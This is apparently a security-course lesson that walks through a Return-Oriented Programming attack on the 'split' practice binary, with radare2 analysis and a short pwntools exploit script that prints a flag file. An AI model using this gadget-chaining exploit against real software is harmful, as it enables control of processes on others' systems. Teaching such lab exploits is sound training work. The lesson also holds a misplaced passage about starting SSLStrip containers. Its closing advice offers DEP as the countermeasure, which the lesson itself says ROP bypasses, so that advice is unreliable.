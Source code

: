 ```yaml
---
title: "Introduction to ROP Attack"
teaching: 10
exercises: 30
questions:
- "What is ROP Attack?"
- "How to build the payload?"
- "What can users do to prevent ROP from happening"
objectives:
- "Successfully conduct a ROP Attack."
keypoints:
- "User needs to know the vulnerability of the ELF file provided and know how to build the payload"
---
```


## ROP Attack

- ROP stands for "Return-Oriented Programming" and is a type of attack that allows an attacker to take control of a program's execution flow by manipulating its stack.

- ROP attacks work by finding "gadgets" in the program's code, which are short sequences of instructions that end with a "return" instruction. By chaining these gadgets together, the attacker can construct a new program flow that achieves their desired outcome.

- ROP attacks are often used to bypass security measures like DEP (Data Execution Prevention) and ASLR (Address Space Layout Randomization), which are designed to prevent traditional buffer overflow attacks.

- ROP attacks can be difficult to defend against, as they don't rely on injecting code into the program's memory like traditional attacks do. Instead, they rely on using the program's own code against itself.


### Demonstration

The demonstration on CHEESEHub illustrates the ROP attack using one machines; 
1. We will  analyze the ELF File provided to know what's the vunerabilities of the program 
2. We will build the payload based on that. We verify the success of the attack by printing the flag.txt.

> ## prerequisites
> 
> You will need to conduct the Buffer Overflow attack prior to the ROP attack. If you're not familiar with it, you could refer to [Lesson: Introduction to Buffer Overflow Attack](https://github.com/cheese-hub/BufferOverflowAttack)
> You will need to know the knowledge of [Assembly Language](https://github.com/cheese-hub/ROP-Attack/blob/main/assembly%20language.md), [pwntools](https://github.com/cheese-hub/ROP-Attack/blob/main/pwntools.md), and [Radare2](https://github.com/cheese-hub/ROP-Attack/blob/main/r2.md) prior to the ROP Attack.
{: .prereq} 

> ## Getting Started
> 
> You will need to create an account on [CHEESEHub](https://www.hub.cheesehub.org) to work through this exercise.
> Each container in this demonstration has a web interface and is accessible through your web browser, no other special software 
> is needed.
{: .callout} 

We will start by first adding the SSLStrip application:

![Add SSLStrip]({{ page.root }}/fig/sslstrip/add-sslstrip.png)

Next, click the *View* link to go to the application-specific page and start the application containers:

![Start Containers]({{ page.root }}/fig/sslstrip/start-containers.png)

> ## Container Launch Errors
>
> If a container fails to start, you will see a flashing warning icon next to the container's name. Take a look at the logs to 
> determine the cause of failure and try deleting the application and restarting.
{: .callout}

Once all the containers have started, launch each container's web interface in a separate browser tab by clicking the icon 
next to the container's name.
## Let's get start it



## Analyze the ELF File
Here is the figure of r2 -AAAA split
![image](https://user-images.githubusercontent.com/77866826/236359081-8598cb0f-7cbf-4f48-88f9-13d4d418f775.png)

![image](https://user-images.githubusercontent.com/77866826/236639440-7c8506b2-1c5e-4a64-9f3a-6a24a7a32ca5.png)
Check the program's protections and find that NX is enabled.

## Find the vulnerabilities
using afl to list all the functions involved
![image](https://user-images.githubusercontent.com/77866826/236639496-5dfd204f-2e61-4b17-9268-729301bd083b.png)

After analyzing with r2, the main, pwnme, and usefulFunction functions were discovered.

![image](https://user-images.githubusercontent.com/77866826/236639532-2ac5cb20-5cac-4feb-b1d7-d53b9011bcf4.png)


3 figures of find functions
![image](https://user-images.githubusercontent.com/77866826/236639632-f297cf2f-d445-48f2-879e-0d8fd0bac1cb.png)

![image](https://user-images.githubusercontent.com/77866826/236639683-910e5cdc-e398-46dc-8965-84252d37e55d.png)

We can see in the pwnme function that there is a buffer with the size of 32 bytes but fgets allow to unput 96 bytes
So an overflow will happen and we can use as the start of the payload.
## Find the bytes needed to make an overflow
First we use gdb to analyse
![image](https://user-images.githubusercontent.com/77866826/236639994-7464498b-9e4d-41dd-934f-cd8d79f9c1c3.png)
And then we generate a random 100 bytes string as input
![image](https://user-images.githubusercontent.com/77866826/236640121-3db8cc3e-4a03-42bd-83a4-61fce5f4bb84.png)
![image](https://user-images.githubusercontent.com/77866826/236640208-bfcb716f-9e54-4283-a469-91a4f6a2d826.png)

And then we do pattern-search
![image](https://user-images.githubusercontent.com/77866826/236640243-48ba12fe-dcb0-493b-a5a2-1320aad20cc9.png)

We can tell in order to overflowrsp we need 40 bytes

## Back to usefulFunction to keep using r2.
![image](https://user-images.githubusercontent.com/77866826/236640293-c1c893e6-93a1-431f-9128-7613b5be80e1.png)

We can see that the usefulFunction is gonna to call system function with string '/bin/ls' as its parameter
After we run the program, we can see that '/bin/ls' is used.
But our goal is to use  '/bin/cat flag.txt' as its parameter so that we can print the flag. So keep searching the gadgets we want.



## Let's get back to r2 and use izz to list the string inside the ELF File.
![image](https://user-images.githubusercontent.com/77866826/236640330-8114d260-e81e-4237-a786-336c098c549d.png)
![image](https://user-images.githubusercontent.com/77866826/236640342-c90de3aa-5feb-4997-84b2-bde8b9276137.png)

We can see that there is a string that can print the flag:/bin/cat flag.txt


And the address of this string is 0x0001060.

## The idea came out!
Now we try to make an overflow and return to the address of system function after that and try to exec the system function with the parameter /bin/cat flag.txt. 
In order to do that,we need to pass the address of the string to RDI Register. We need ROPgadget to help us implement this because it can find related string in the file
![image](https://user-images.githubusercontent.com/77866826/236640364-d56ae265-a276-4263-acee-92b72fae5cab.png)
![image](https://user-images.githubusercontent.com/77866826/236640501-3212fd1c-7e32-418c-b21d-15bb39fac710.png)
We can use" pop rdi : ret "to do make it as a gadget.
## Build and Analyze the code
from pwn import *

# create a process object and load the executable binary
p = process('./split')



# determine the offset to the return address on the stack
offset = 40

# retrieve the addresses of the desired functions/strings using the ELF object
ret_address = 0x00000000004007c3


# construct the payload by padding the offset with arbitrary characters
# then appending the address of the return instruction and the address of the system call with the argument of the flag file
payload = b'A' * offset + p64(ret_address) + p64(0x00601060) + p64(0x0040074b)

# send the payload to the process and get the result
p.sendline(payload)
p.interactive()


## Catch the Flag!!
## Contermeasure?

> ## ROP Split Attack
> 
> We can use DEP as the countermeasure. Data Execution Prevention (DEP): DEP is a security feature that prevents the execution of code from memory pages that are marked as data. This can help prevent attackers from executing malicious code in the first place.

{% include links.md %}

